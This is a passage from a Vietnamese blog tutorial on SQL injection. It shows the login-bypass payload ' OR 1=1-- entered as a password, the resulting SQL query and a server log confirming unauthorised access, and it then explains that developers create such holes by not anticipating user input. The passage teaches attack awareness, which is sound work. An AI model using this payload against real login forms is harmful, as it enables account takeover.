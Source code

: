 Sau khi xác định được lỗ hổng, mình sẽ thử đăng nhập lại với password là **`' OR 1=1--`**. Câu lệnh SQL lúc này được thực thi trên server sẽ là:

```sql
SELECT *
  FROM users
 WHERE email = 'phat.nhagiau@pankhub.com'
   AND pass  = '' OR 1=1 --' LIMIT 1
```

Server log:

```
Rendering login page.
Checking supplied authentication details for phat.nhagiau@pankhub.com.
Finding user in database.
Authentication details confirmed, establishing session for this user.
```

<img src="/assets/blog/sql-database-hacking/05.jpg" />

Xong, tài khoản của bạn nằm trong tay tôi :ok:

Cơ chế hoạt động đơn giản nhất của **SQL Injection** là như vậy đọ. Thực thi nó không hề khó, nhưng để nhận ra được trang nào có lỗ hổng thì lại khá khó, vì không phải lúc nào khai thác lỗ hổng SQL Injection nó cũng y chang như vậy.

### Nhưng tại sao có lỗ hổng này?

Lý do lớn nhất là các bạn chưa thể tiếp cận toàn bộ các case trong quá trình code. Bạn không bao giờ lường trước được người dùng sẽ làm cái ~~đéo~~ gì trên sản phẩm của mình. :sad: Chính vì vậy thường các case không bao giờ được nghĩ tới này lại vô tình tạo ra lỗ hổng cho attacker khai thác.
